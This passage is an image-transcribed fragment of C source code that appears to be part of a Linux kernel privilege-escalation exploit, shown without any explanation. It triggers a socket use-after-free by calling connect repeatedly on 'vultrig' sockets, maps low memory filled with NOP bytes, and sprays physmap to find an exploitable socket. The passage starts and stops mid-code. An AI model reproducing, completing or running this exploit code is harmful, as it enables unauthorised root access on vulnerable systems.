 ```
		if(-1 == ret)
		{
			perror("[-] create vultrig socket fail.\n");
			exit(-1);
		}
	}
	
	system("echo 4096 > /proc/sys/vm/mmap_min_addr");
	void* user_mm = mmap(PAGE_SIZE, MAX_NULLMAP_SIZE, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE| MAP_FIXED |MAP_ANONYMOUS, -1, 0);
	if(MAP_FAILED == user_mm)
	{
	      perror("[-] mmap NULL fail");
	      exit(-1);
	}

	for(i=0; i<MAX_NULLMAP_SIZE/PAGE_SIZE; i++)
	{
	     memset((char *)user_mm + PAGE_SIZE * i, 0x90, PAGE_SIZE);
	}
  
	for(i=0; i<MAX_VULTRIG_SOCKS_COUNT; i++)
	{
		ret = connect(vultrig_socks[i], &addr2, sizeof(addr2));
		if(-1 == ret)
		{
			perror("[-] create vultrig socket fail");
			exit(-1);
		}

		ret = connect(vultrig_socks[i], &addr2, sizeof(addr2));
		if(-1 == ret)
		{
			perror("[-] connect vultrig socket fail");
			exit(-1);
		}
	}

	printf("[*] physmap spray begin.\n");
  	memset(physmap_spray_pages,    0,   sizeof(physmap_spray_pages));
	memset(physmap_spray_children, 0, 	sizeof(physmap_spray_children));
  	physmap_spray_pages_count   =  0;
	for(i=0; i<MAX_PHYSMAP_SPRAY_PROCESS; i++)
	{
		
	    if(-1 == spray_nofork(MAX_PHYSMAP_SIZE))
	    {
	      printf("[*] physmap spray fail.\n");
	      return -1;
	    }
	}

	  printf("[*] physmap spray done.\n");
  
	  exp_sock_index = MAX_VULTRIG_SOCKS_COUNT / 2;
  	  exp_sock = search_exploitable_socket(&exp_sock_index, &payload);
	  if(-1 == exp_sock)
	  {
	      printf("[*] can't search exploitable socket.\n");
	      return -1;
	  }

	  /*
```